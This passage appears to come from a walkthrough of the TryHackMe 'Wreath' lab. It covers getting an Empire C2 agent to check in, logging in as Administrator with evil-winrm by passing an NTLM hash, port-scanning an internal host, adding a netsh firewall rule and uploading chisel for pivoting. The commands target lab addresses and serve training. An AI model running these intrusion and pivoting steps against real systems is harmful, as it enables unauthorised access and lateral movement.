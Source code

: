 We can copy the stager payload and paste it intot he terminal of 200 to get an agent to checkin to our empire.

We can select agents with `interact` and help to see all comnds.

We can then upload our http_hop listener to the 200 server and get an agent back on our attacker when executing the payload on the gitserv exploit we uploaded earliar.

* * * 

## Personal PC Enumeration 

We need to find entryway into the personal PC. We can run powershell scripts directly through evil-winrm using the `-s` flag. Doing do we can load all of the powershell scripts that empire has available to us.  

- `evil-winrm -i 10.200.101.150 -u Administrator -H "37db630168e5f82aafa8461e05c6bbd1" -s "/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network"`

This will connect us to the personal PC and allow us to run `Invoke-Portscan.ps1` to load the script. We can get `Get-Help Invoke-Portscan` to see available options to us. Now running `Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50` this will scan the 50 most used ports on .100, showing us port 80, and port 3389 to be open.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50


Hostname      : 10.200.101.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 9/18/2022 2:36:24 AM
```

* * * 

## Personal PC Pivoting

We found a few open ports ont he personal PC. In order to access the ports we have to open the firewall on the git windows machine to be able to pivot using chisel. Using Evil win-rm for access and the netsh command to create a firewall rule.

Attacking machine

- `netsh advfirewall firewall add rule name="Chisel-0xskar" dir=in action=allow protocol=tcp localport=42069`
- `upload /home/oskar/Documents/TryHackMe/Wreath/tools/Pivoting/Windows/chisel_1.7.3_windows_amd64 c:\windows\temp\chisel-0xskar.exe`




* * * 
